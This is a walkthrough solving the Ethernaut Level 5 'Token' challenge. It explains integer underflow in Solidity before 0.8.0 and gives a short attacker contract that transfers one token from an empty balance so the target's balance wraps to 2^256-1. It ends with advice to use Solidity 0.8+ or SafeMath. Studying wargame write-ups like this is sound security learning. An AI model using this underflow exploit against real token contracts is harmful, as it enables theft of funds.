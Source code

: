 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/5-token.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 5 - Token</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
  - [Examples](#examples)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/5-token-requirements.webp" width="800px"/>

## The hack

> An odometer or odograph is an instrument used for measuring the distance traveled by a vehicle, such as a bicycle or car.

To succeed at this level, we have to understand the concept of underflow and overflow in solidity. All variables have a maximum value that they can hold, and if you try to add a value that exceeds this maximum, the variable will overflow and start from 0.

And since we are using mostly unsigned integers (uint) in solidity, variables also have a minimum value (0), and if you try to subtract a value that is greater than the current value, the variable will underflow and start from the maximum value.

### Examples

Solidity's unsigned integers have a fixed range of values they can represent. An overflow occurs when a calculation exceeds an unsigned integer's maximum value, and underflow happens when a calculation drops below an unsigned integer's minimum value (which is 0 for unsigned integers).

```javascript
pragma solidity ^0.6.0;

contract Example {
    uint8 public minValue = 0;
    uint8 public maxValue = 255;

    function underflow() public {
        // 0 - 1 = 255 (Underflow)
        minValue--;
    }

    function overflow() public {
        // 255 + 1 = 0 (Overflow)
        maxValue++;
    }
}
```

Fortunately for us, since solidity `0.8.0`, the compiler throws an error when an overflow or underflow occurs. But here, we can take advantage of this since we are using an older version of solidity.

## Solution

Since the contract is using solidity ^0.6.0, and since no `SafeMath` library is used, it is easy to create an underflow.

```javascript
require(balances[msg.sender] - _value >= 0);
```

The following contract will try to transfer 1 token (which he doesn't have) to our address, and the balance will underflow to the maximum value of uint256 (2^256 is a pretty big number).

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IToken {
    function transfer(address _to, uint _value) external returns (bool);
}

contract UnsafeMath {
    address immutable token;

    constructor(address _token) {
        token = _token;
    }

    function attack() public {
        IToken(token).transfer(msg.sender, 1);
    }
}
```

Here is what will happen:

```javascript
require(balances[msg.sender] - _value >= 0); // Passed
// 0 - 1 = 2^256 - 1
balances[msg.sender] -= _value; // balances[msg.sender] = 2^256 - 1;
```

## Takeaway

- Always use a recent version of Solidity (^0.8.0) to benefit from native overflow and underflow checks.
- If you need to interact with a contract using a solidity version older than 0.8.0, always check that the contract is using a SafeMath library or equivalent.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
